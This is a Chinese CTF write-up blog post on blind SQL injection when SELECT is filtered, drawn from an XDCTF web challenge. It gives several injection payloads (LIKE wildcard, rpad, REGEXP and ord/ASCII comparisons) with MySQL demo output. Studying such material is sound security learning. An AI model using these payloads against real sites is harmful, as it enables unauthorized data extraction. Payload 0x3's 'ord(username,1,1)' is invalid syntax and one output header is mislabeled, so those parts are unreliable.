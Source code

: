 title: 不使用select情况下的各种盲注
date: 2015-10-05 11:17:10
tags: SQLi
categories: H-blog
---
> 这次的XDCTF, 关于web1 400, 学到了很多666的姿势, 开一篇新博文, 记录这些姿势..

<!--more-->

原本我以为, 在select被过滤的情况下, 如果不能bypass, 就没法注入... 而这次看了writeup后, 不同的队, 姿势都不同, 大开眼界....

这次题目的语句我猜测是 `select pic from table where ID="$i";`
$i 则是可控点..

```
payload 0x0:
    $i = 1" && username="%
构成以下语句:
select pic from talbe where ID="1" && username="%"
这个payload可以用来猜测是否有该字段, 接下来的盲注这语句仍然可用

payload 0x1:
    $i = 111" OR if(rpad(username,1,1)="a",1,0)#  或者 111" OR if(rpad(username,1,1)=char(101),1,0)# 
构成以下语句:
select pic from table where ID="111" OR if(rpad(username,1,1)="a",1,0)#"
在知道该表有username字段后, 可以通过这语句进行盲注
```
上面的语句用到了两个函数, 一个 `if()` && `rpad()`
if函数在我之前的博客中写过, 就不再多说..主要讲讲rpad()
rpad还有个相同功能的行数lpad, 一个是right 一个是 left , 具体的用法已实例来讲解:
```
mysql> select name from table;
+----------+
| name     |
+----------+
| Hcamael  |
+----------+
1 row in set (0.00 sec)
mysql> select rpad(name,5,1) from table;
+--------------------+
| rpad(name,5,1)     |
+--------------------+
| Hcama              |
+--------------------+
1 row in set (0.01 sec)
mysql> select rpad(name,10,1) from table;
+---------------------+
| rpad(name,10,1)     |
+---------------------+
| Hcamael111          |
+---------------------+
1 row in set (0.00 sec)
mysql> select lpad(name,5,1) from table;
+--------------------+
| rpad(name,5,1)     |
+--------------------+
| Hcama              |
+--------------------+
1 row in set (0.01 sec)
mysql> select lpad(name,10,1) from table;
+---------------------+
| lpad(name,10,1)     |
+---------------------+
| 111Hcamael          |
+---------------------+
1 row in set (0.00 sec)

```
这两个函数有三个参数, 第一个是字段名, 第二个是显示几位, 第三个是当位数不足时, 以啥补充..

```
payload 0x2:
    $i = 111" OR username REGEXP "^[a-z]
select pic from table where ID ="111" OR username REGEXP "^[a-z]"
正则匹配法注入, 真是涨姿势了, 第一次见

payload 0x3:
    $i = 111" OR (ascii(ord(username,1,1)))=97# 或者 111" OR (ord(username,1,1))='a'#
select pic from table where ID="111" OR (ascii(ord(username,1,1)))=97#"
这种方法我以前盲注的时候写过, 可是当没有select的时候, 我却自然的以为这些不行用了...
```




